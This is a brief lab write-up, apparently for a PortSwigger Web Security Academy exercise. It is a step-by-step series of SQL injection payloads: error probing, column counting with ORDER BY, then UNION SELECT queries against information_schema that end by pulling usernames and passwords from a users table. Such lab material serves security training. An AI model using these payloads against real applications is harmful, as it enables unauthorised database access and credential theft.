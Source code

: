 # [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a'--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM information_schema.tables--
```
1. table_name - `users_losije`

Step - 6
---
```
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
```
1. column_name - `username_nlazuv` and `password_xcildc`

Step - 7
---
```
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
```